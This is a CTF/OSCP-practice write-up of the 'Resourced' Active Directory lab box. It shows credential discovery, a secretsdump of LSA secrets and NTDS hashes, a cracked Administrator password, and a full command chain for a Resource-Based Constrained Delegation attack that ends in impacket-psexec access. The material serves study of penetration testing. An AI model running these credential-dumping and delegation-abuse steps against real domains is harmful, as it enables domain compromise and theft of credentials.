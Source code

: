 # Resourced Writeup
Name: Resourced
Date:  28/09/2022
Difficulty:  Intermediate
Goals:  
- OSCP Prep 1/5 Medium Boxes in a day, writeups allowed
- Improving Noting with BoxedName-Notes.md 
Learnt:
- Wonders of secrets dump
- Sometimes escaping white is -7 worth of problem solving 
- Impacket is awesome
- Resource Based Contrained Delegation
- Exfiltrate everything, dont skip trying to exfiltrate
- Be more methodical noting TODO when handling data 

## Recon

The time to live(TTL) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.
![ping](OS-ProvingGrounds/Resourced/Screenshots/ping.png)

Resourced is a Active Directory box.
Guest Account disabled. But through enum4linux we get credentials:
![](passwordreminders.png)

V.Ventz HotelCalifornia194!

![](smbclientvventz.png)

`Password\ Audit` got me.

[Extract and Crack NDTS](https://bond-o.medium.com/extracting-and-cracking-ntds-dit-2b266214f277)

This is what I had:
```
[*] Target system bootKey: 0x6f961da31c7ffaf16683f78e04c3e03d
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC
$MACHINE.ACC:plain_password_hex:507fdb105d9322cf53420c95780adf5f2dcdac7ca14f8b37188370c916a3fa6f2a511bb284aeac71211c939a866a2b4cc02c408e1d242ad4f5cc8f7b85d2448c18d23fb47f7b9b543a6cfb8999e40037f23dbfd8690869753979d15fe61bdcddb0ccff3d20c275207ca93e844c3b5aa1f658198225b3e54f90e0b71aaf76ba32bb1b598d189b6696c27d04674fd4c4f2c09d0df2e59fe93850aa928be813be3bd659f0d2ecba6e34fb5a3880db8155cf77e21eb44d63e1ae65abcc2aa5bdfb6bfe85e8590329929522aae501ba86d8622918e37b41daef8a2b00e78440d13e88a31fc14714923bba6fb99e13c81b3020
$MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:9ddb6f4d9d01fedeb4bccfb09df1b39d
[*] DPAPI_SYSTEM
dpapi_machinekey:0x85ec8dd0e44681d9dc3ed5f0c130005786daddbd
dpapi_userkey:0x22043071c1e87a14422996eda74f2c72535d4931
[*] NL$KM
 0000   31 BF AC 76 98 3E CF 4A  FC BD AD 0F 17 0F 49 E7   1..v.>.J......I.
 0010   DA 65 A6 F9 C7 D4 FA 92  0E 5C 60 74 E6 67 BE A7   .e.......\`t.g..
 0020   88 14 9D 4D E5 A5 3A 63  E4 88 5A AC 37 C7 1B F9   ...M..:c..Z.7...
 0030   53 9C C1 D1 6F 63 6B D1  3F 77 F4 3A 32 54 DA AC   S...ock.?w.:2T..
NL$KM:31bfac76983ecf4afcbdad0f170f49e7da65a6f9c7d4fa920e5c6074e667bea788149d4de5a53a63e4885aac37c71bf9539cc1d16f636bd13f77f43a3254daac
```

Then went back after trying this as I had never seen this sort of output other than dpapi keys
`cd "Active Directory\ `

I tried various ways of logging in rdp, winrm, psexec with various accounts
![](nordp.png)

```bash
impacket-secretsdump -ntds ntds.dit -system  system LOCAL > bigdump
cat bigdump | grep ::: | awk -F: '{print $4}'
# Crackstation the hases
Administrator 12579b1666d4ac10f0f59f300776495f : ItachiUchiha888
```

I then exeperienced a rabbit hole with AD having all the hashes like that then I tried forging tickets, I thought I had crackmapexec L.Livingston as I saw he was a sysadmin...

![](ticketer.png)

## Foothold

L.Livingston is a sysadmin.
Regardless I have not the time left I so learnt some Resource Based Contrained Delegation

## PrivEsc

![](Livingstone.png)

Resource Based Contrained Delegation
```bash
# Kali - create a new machine account on the domain
impacket-addcomputer $domain.local/$user -dc-ip $domaincontroller-ip $domaincontroller-ip  -hashes :19a3a7550ce8c505c2d46b5e39d6f808 -computer-name 'ATTACK$' -computer-pass 'AttackerPC1!'
# Target - Verify 
PS > get-adcomputer attack

# Kali - Get delegation rights script to manage delegation rights
wget https://raw.githubusercontent.com/tothi/rbcd-attack/master/rbcd.py
# set sDS-AllowedToActOnBehalfOfOtherIdentity on new machine account
sudo python3 rbcd.py -dc-ip $domaincontroller-ip -t $target -f 'ATTACK' -hashes :$hash $domain\\$user

# Target - Verify
PS> Get-adcomputer resourcedc -properties msds-allowedtoactonbehalfofotheridentity |select -expand msds-allowedtoactonbehalfofotheridentity

# Kali - Get administrator service ticket
impacket-getST -spn cifs/$dc.$domain.local $domain/attack\$:'AttackerPC1!' -impersonate Administrator -dc-ip $domaincontroller-ip 
# export the KRB55CCNAME so that impacket can load the .ccache file
export KRB5CCNAME=./Administrator.ccache
# Append /etc/hosts file with 
sudo sh -c 'echo "$domaincontroller-ip $domain.local dc.$domain.local" >> /etc/hosts'
# Psexc in!
sudo impacket-psexec -k -no-pass $dc.$domain.local -dc-ip $domaincontroller-ip
```

![](stepOne.png)
![](stepTwo.png)
![](stepThree.png)
![](stepFour.png)
![](stepFive.png)
![](wow.png)